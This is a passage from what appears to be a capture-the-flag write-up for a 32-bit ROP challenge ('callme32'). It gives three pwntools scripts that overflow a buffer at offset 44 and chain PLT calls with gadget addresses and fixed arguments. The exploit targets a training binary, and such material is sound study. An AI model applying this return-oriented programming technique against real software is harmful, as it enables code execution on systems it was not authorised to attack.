 ```python
p = elf.process()
#gdb.attach(p)

p.recv()
p.sendline(payload)
#p.interactive
log.info(p.recvall())

```

# x86 (32 bit) architecture

in this case the solution is similar to the solution abow.
here i have wrote three solution. Pratically are the same but the sintax inside the pwntools script is different


```python
from pwn import *
context.binary = elf = ELF('./callme32')
offset = 44

callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 

arg1 = 0xdeadbeef
arg2 = 0xcafebabe
arg3 = 0xd00df00d

pop_esi_edi_ebp = 0x080487f9
pop_ebp = 0x080487fb
pop_edi_ebp = 0x080487fa

# SOLUTION 1
insert_prm = p32(pop_esi_edi_ebp)+p32(arg1)+p32(arg2)+p32(arg3)
#payload = b'A'*offset + p32(callme_one) + insert_prm + p32(callme_two) + insert_prm + p32(callme_three) + insert_prm 

# SOLUTION 2
rop = ROP(elf)
param = [0xdeadbeef, 0xcafebabe, 0xd00df00d]

rop.callme_one(*param)
rop.callme_two(*param)
rop.callme_three(*param)
#payload = b'A'*offset + rop.chain()

# SOLUTION 3
rop = ROP(elf)
rop.call('callme_one', [0xdeadbeef, 0xcafebabe, 0xd00df00d])
rop.call('callme_two', [0xdeadbeef, 0xcafebabe, 0xd00df00d])
rop.call('callme_three', [0xdeadbeef, 0xcafebabe, 0xd00df00d])

payload = b'A'*offset + rop.chain()

p = elf.process()
#gdb.attach(p)

p.recv()
p.sendline(payload)
#p.interactive
log.info(p.recvall())
```